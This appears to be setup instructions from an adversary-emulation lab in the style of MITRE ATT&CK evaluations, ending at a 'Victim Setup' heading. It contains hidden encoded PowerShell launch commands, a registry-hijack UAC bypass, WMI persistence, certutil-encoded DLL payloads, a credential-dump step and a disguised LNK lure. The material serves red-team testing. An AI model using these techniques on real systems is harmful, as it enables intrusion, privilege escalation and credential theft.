 ## Red Team Setup

### Generate an encoded PowerShell oneliner payload, then copy

1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in `schemas.ps1`
    * ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in `stepFifteen_wmi.ps1`
    * ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in `stepFourteen_bypassUAC.ps1`
    * ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

### Generate DLL payload, then on a separate Windows host

1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

### Copy payloads to C2 server (wherever is appropriate for your C2 framework to have access to these files)

### Update `stepFourteen_credDump.ps1` -- directions are in file

### Prepare initial access payloads

1. Login as non-domain admin user
2. Copy over the following files onto the Desktop of the initial victim:
    1. `2016_United_States_presidential_election_-_Wikipedia.html`
    2. `make_lnk.ps1`
    3. `schemas.ps1`
2. Copy over `MITRE-ATTACK-EVALS.HTML` into the Documents folder of the initial victim
3. Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
4. Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

## Victim Setup

### For each of the 3 victims
